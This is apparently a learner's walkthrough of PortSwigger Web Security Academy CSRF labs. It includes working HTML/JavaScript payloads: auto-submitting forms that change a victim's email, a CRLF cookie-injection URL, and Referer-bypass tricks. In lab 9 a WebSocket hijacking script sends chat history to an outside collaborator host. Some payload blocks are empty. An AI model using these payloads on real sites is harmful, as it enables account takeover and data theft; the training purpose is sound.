# Portswigger Writeups

## Lab 1: No defenses

To solve the lab, change the viewer's email address using the given exploit server. 

For CSRF attacks, remember that these 3 conditions have to be satisfied:

1. Identify an action to be exploited.
2. Session management must be managed **solely using cookies OR HTTP Basic Authentication Header**. Other headers cannot be manipulated.
3. Absence of unpredictable parameters like CSRF tokens.

I logged in as `wiener`. The POST request used to change emails is as follows:



The user is authorised using a single `session` cookie. To solve the lab, I have to construct the HTML frames for a form to send a POST request to change the email:

```html
<form class="login-form" name="change-email-form" action="https://0ace003003fdcbd584814bca001b0077.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

The above will trigger a HTTP POST request, and if the user is logged in, their browser will include the session cookies (Since SameSite cookies aren't being used).

Sending this exploit solves the lab.

## Lab 2: Token Validation depends on Request Method

There are defences, but it is only for certain request methods. To solve the lab, change victim's email address.

This time, there's a CSRF token present:



However, by changing this to a GET request, I can change the email without the CSRF token:



Here's the payload I used:

```html
<form class="login-form" name="change-email-form" action="https://0a6a001c0447238280c071fc002f0046.web-security-academy.net/my-account/change-email" method="GET">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 3: Token Validation depends on Token Presence

To solve this lab, change the email address of the victim. This lab has a CSRF token:



However, the whole parameter can be removed and it still works.

```html
<form class="login-form" name="change-email-form" action="https://0aee00170337a07580fdfe3e00f20056.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 4: Token not tied to User Session

To solve this lab, change the email of the victim. The lab name is obvious, steal a valid token from one account to another account.

In the page source, I can find the following:



I can create the same PoC, I just have to add the `csrf` token line there. 

```html
<form class="login-form" name="change-email-form" action="https://0ac5001204753cd380e37be6007d002b.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
    <input required type="hidden" name="csrf" value="pTCjsfi0MecsIhbKtpx0iY8mFMeBGH0b">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 5: Tied to non-session Cookie

To solve this lab, change the victim's email address. When logged in, there's a `csrfKey` cookie value:



The Search function of the website also sets the `LastSearchTerm` cookie, meaning I can manipulate the victim's cookies.



In my testing, since I was given two accounts, I noticed that swopping the `csrfKey` cookie did not affect anything. As such, it is likely the case where I can recycle a valid `csrf` token and `csrfKey` cookie from my `wiener` account for the victim.

Additionally, I cannot change the email of my user without a valid `csrfKey`.

First, I can set the user's ``csrfKey` value using this URL:

```
https://0a8800d904cff49f81049da600c800d1.web-security-academy.net/?search=a%0d%0aSet-Cookie:%20csrfKey=gx4NeCxvogfI4rvj7LhNk5eNsVaJ47N6%3b%20SameSite=None
```

Afterwards, I can craft this payload with a valid `csrf` token that has not been used yet. To make the user visit the malicious search URL, I can use `img` frames:

```html
<form class="login-form" name="change-email-form" action="https://0a4e006903ee971a8045715e00bf0059.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
    <input required type="hidden" name="csrf" value="Jqmv37HMO6LpU2lAku4sSVLJKzraTTH0">
</form>

```

## Lab 6: Token duplicated in Cookie

To solve this lab, change email of the victim. For this lab, there's an additional search function:



Searching for anything results in this response:



Notice that there's a `LastSearchTerm` cookie being sent. This value can be manipulated to whatever I like. I can even inject random cookies with their own values:



These cookies would be automatically included in any future requests, meaning I can sort of 'set' the cookies of the user.



When I changed email, the `csrf` parameter passed was the same value as the one reflected in the `Cookie` header:


Changing the `csrf` POST parameter would throw an "Invalid CSRF Token" error.



So here's the exploit path:

1. Create a form to submit as per usual stuff.
2. Set the CSRF token value of the form to any value, like `evil`. 
3. Now, set the victim's `csrf` cookie to `evil` by using the search function and the `Set-Cookie` header. Set `SameSite` to `None` too.
4. Deliver the exploit via an `iframe` or `img` tag.
5. Use the `onerror` event to submit the document:

```html
<form class="login-form" name="change-email-form" action="https://0a8800d904cff49f81049da600c800d1.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
    <input required type="hidden" name="csrf" value="evil">
</form>

```

## Lab 7: SameSite Lax Bypass via Method Override

To solve this lab, change the user's email address. This lab requires us to bypass `SameSite` attribute, which determines whether are sent on requests originating from third-party domains.

For this lab, it is set to `Lax`, which means it allows cookies to be sent only with GET requests initiated by third-party websites. 

Method overriding for HTTP involves the following:



I abused this in the lab to change the email:



Since the tokens are set to Lax, cookies will be sent by third-party websites like the exploit server. This allows me to send a GET request to change the email of the victim, since they are logged in.

```html

```

## Lab 8: Client-Side Redirect

To solve this lab, change the victim's email. There's a comment functionality for this site, and I noticed this Javascript file being requested:



Here's the code:

```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

This file has a `postId` parameter, which searches for the respective GET parameter, then redirects the user to `blogPath + '/' + postId`. The `postId` is a user-controlled parameter, so directory traversal is possible using this.

It should be noted that the script is loaded upon sending a GET request to `/post/comment/confirmation/?postId=postId`. 

I also noted that sending a GET request instead of a POST request works in changing the user's email.

![]](../../.gitbook/assets/portswigger-csrf-writeup-image-14.png)

Here's the final payload:

```html

```

`&` has to be URL encoded to prevent breaking out of the initial `postId` parameter!.

## Lab 9: Sibling Domain (CSWSH)

This lab has a chat feature vulnerable to Cross-Site Websocket Hijacking. To solve it, find the credentials from the victim's chat history and send it to Burp Collaborator.

I intercepted all responses in the chat feature. All cfaths start with a 'READY' message:



The rest of the requests just print out whatever message there is on screen:







Within the page source, there's a `chat.js` file.



When the 'READY' message is replayed, I the rest of the chat history is printed out:



This aligns with the Javascript code:

```js
return new Promise(res => {
    if (webSocket) {
        res(webSocket);
        return;
    }

    let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

    newWebSocket.onopen = function (evt) {
        writeMessage("system", "System:", "No chat history on record");
        newWebSocket.send("READY");
        res(newWebSocket);
    }
```


There is a check to make sure that there are existing websockets, otherwise it creates a new one. I create my own script to interact with this using the variables from the code and the page source.

The `chatForm` variable can be found in the page source:



While looking at the Target tab from Burpsuite, I saw the sibling domain mentioned:



Visiting this leads to a login page:



Random logins result in this:



I tested XSS, and it worked in the `username` parameter.



This domain is within the `Access-Control-Allow-Origin` headers, meaning that the contents of the main domain is accessible to this `cms` domain. Using the XSS within the login, I can visit and retrieve data from the main domain.

Using this fact, I can retrieve data and send it to the exploit server by making the `cms` domain execute code. This can be done by using one-liner JS script.

```js
<script>    var ws = new WebSocket('wss://0a6100740330309982f244c300c300fe.web-security-academy.net/chat');    ws.onopen = function() {        ws.send("READY");    };    ws.onmessage = function(event) {        fetch('fh0n43hizfz6ksuw7jueykb9e0kr8hw6.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});    };</script>
```

By sending the above, I was able to retrieve the contents of my chat history:



The POST requests for logins can be changed to GET requests, which allows me to deliver the URL encoded script to the victim:

```html

```

This causes a POST request to be sent to Collaborator:



## Lab 10: Cookie Refresh (Skipped)

Skipped cus it contains OAuth, not doing that now.

## Lab 11: Referer Validation depending on header presence

To solve this lab, change the email of the victim. The POST request for the changing of email:



When the `Referer` header is modified, the request is rejected:



It seems to only work when `Referer` is set to the `/my-account?id=wiener` URL. When it is deleted, the request works.



To exploit this lab, I have to use the normal CSRF form, and somehow remove the victim's `Referer` header. This can be set using the following HTML tags:

```
<meta name="referrer" content="never">
```

So the final payload is:

```html
<meta name="referrer" content="never">
<form class="login-form" name="change-email-form" action="https://0ae100a8036436398018aacc00300090.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 12: Broken Referer Validation

For this lab, the Referer header can be bypassed. This time, removing it won't work. While testing, I noticed that as long as the original URL is present in the `Referer` header, it can change the email.



It doesn't even need to be a valid URL, as long as the string is present. To exploit this, I need a method of **modifying** header values.



Using the above method, I can append `/?LAB_URL` to the end of the `Referer` header, thus bypassing the check in theory.

However, the method above does not work. The `Referer` header is still not set using this method. As it turns out, the solution states that there is an `unsafe-url` policy setting for the `Referer` header. 

The above option specifies that a full URL, stripped for use as a referrer, is sent along with both cross-origin requests and same-origin requests made from a particular client. (Taken from w3.org)

This is because most browsers strip the query string from the `Referer` header. By setting this, it no longer strips it. 

Here's the full payload:

```html
<meta name="referrer" content="unsafe-url" />
<form class="login-form" name="change-email-form" action="https://0aed00b303d727d3814c4d72006b00d6.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="pwned@evil.com">
</form>
<script>
history.pushState("", "", "/?0aed00b303d727d3814c4d72006b00d6.web-security-academy.net");
document.forms[0].submit();
</script>
```

